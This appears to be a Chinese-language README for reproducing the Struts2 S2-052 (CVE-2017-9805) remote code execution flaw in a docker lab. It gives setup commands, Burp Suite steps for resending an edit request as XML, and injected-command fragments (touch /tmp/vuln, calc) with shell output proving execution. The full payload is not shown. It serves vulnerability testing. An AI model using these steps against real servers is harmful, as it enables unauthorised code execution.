 ## S2-052（CVE-2017-9805）

struts2 052远程代码执行漏洞POC利用（影响版本：Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12） 官方介绍：https://cwiki.apache.org/confluence/display/WW/S2-052 此POC是在struts-2.5.12版本测试验证的。

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```


## POC
http://10.160.11.191:8080/orders.xhtml

如果上述都顺利的话可以看到Orders可编辑界面，下面是POC测试过程。 点击Order 3编辑，进入到修改界面，点击"提交"Burpsuite抓包，然后修改Content-Type为application/xml格式，post数据替换为poc中data提交。

```
root@070efab61a6e:/usr/local/tomcat# ls /tmp/ -l
total 4
drwxr-xr-x 2 root root 4096 Oct 10 07:47 hsperfdata_root
-rw-r----- 1 root root    0 Oct 10 07:52 vuln
root@070efab61a6e:/usr/local/tomcat# date
Tue Oct 10 07:52:54 UTC 2017

```

## 期望结果
1、期望在/tmp/目录下创建vuln文件，证明命令被执行。
2、/usr/bin/ping *.*.*.*  命令执行ping，通过docker宿主机tcpdump -ni br-cd0dcca0f917 抓包证明命令被执行。

docker环境下touch命令：
<command>
<string>/usr/bin/touch</string><string>/tmp/vuln</string>
</command>

Notes:
Windows下关键字为：

<command><string>calc</string></command>
Mac下关键字为：

<command><string>/Applications/Calculator.app/Contents/MacOS/Calculator</string></command>

## 参考
* https://thief.one/2017/09/06/1/



## 免责申明：文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负
